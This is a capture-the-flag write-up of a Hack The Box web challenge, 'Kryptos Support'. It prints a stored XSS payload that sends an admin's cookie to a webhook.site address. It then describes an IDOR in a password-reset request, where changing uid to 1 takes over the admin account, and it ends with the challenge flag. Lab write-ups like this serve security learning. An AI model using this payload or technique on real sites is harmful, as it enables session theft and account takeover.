 # Kryptos Support

```
The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?
```

Loading the challenge we see we can send a ticket. Using some test value it says an admin will review it shortly...

This is a good sign we can perform XSS

Try the payload:

```
<svg onload=document['location']="https://webhook.site/32847513-047e-4a58-b5a8-5b8c4abb0401/?c="+document['cookie']//
```

we see a request come through to our webhook with the admin cookie!

set cookie in devtools

this confused me for a while until I found /settings. Here is a password reset functionality. Looking at the POST request body:
```json
{"password":"abc","uid":"100"}
``` 

This looks like an IDOR, let's intercept the request in burpsuite and change uid to 1

```json
{"password":"abc","uid":"1"}
```

in the response:

```json
{"message":"Password for admin changed successfully!"}
```

great, now just log in as admin and get the flag

HTB{x55_4nd_id0rs_ar3_fun!!}